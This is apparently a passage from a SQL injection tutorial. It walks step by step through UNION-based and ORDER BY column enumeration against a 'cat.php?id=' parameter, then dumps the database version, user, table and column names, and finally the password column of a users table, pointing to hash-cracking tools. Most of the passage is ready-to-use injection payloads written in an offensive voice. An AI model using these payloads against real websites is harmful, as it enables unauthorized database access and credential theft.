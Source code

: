 ```ex
UNION SELECT 1, 'string', 'string', 'string' --
```

At this point you have a working SELECT statement where the output will be appended to the normal output the application gives!

If you’ve got a lot of columns and writing out all of those NULLs is too much like hard work.

Or we can also do this method too:

```another
site.com/cat.php?id=1 union 1 (error)
site.com/cat.php?id=1 union 1,2 (error)
site.com/cat.php?id=1 union 1,2,3 (error)
site.com/cat.php?id=1 union 1,2,3,4 (no error)
```

So we can conclude that there are 4 columns present in the database.

Alright, we got number of columns now we have to find vulnerable column.

Now, we have to check which column value is reflecting on the page let's see an example.

```ex
site.com/cat.php?id=1 union 1,2,3,4 (no error)
```

let's assume `2` is relecting on the page that means second column is vulnerable.

so we will replace "2" with the version

`site.com/cat.php?id=2 union select 1,@@version,3,4`

and we will get the version of the server let's exploit it more ;)

`cat.php?id=2 union select 1,user(),3,4`

Now we will dump the database:

`site.com/cat.php?id=2 union select 1,table_name,3,4 from information_Schema.tables`

Now we dump the columns:

`site.com/cat.php?id=2 union select 1,column_name,3,4 from information_Schema.columns`

Now the we will retrieve the columns:

`site.com/cat.php?id=2 union select 1,password,3,4 from users`

after that we can either get credentials in plain text or in hashed form so for that we can use john the ripper, hashcat or [crackstation](https://crackstation.net/)

There's Another way finding number of columns:

ORDER BY:

`site.com/cat.php?id=1 order by 10 --`

The thing is it will show error when the column number is high for example if we have 4 columns so it will show error upto 5

```ex
site.com/cat.php?id=1 order by 5 -- (error)
site.com/cat.php?id=1 order by 4 -- (no error)
```
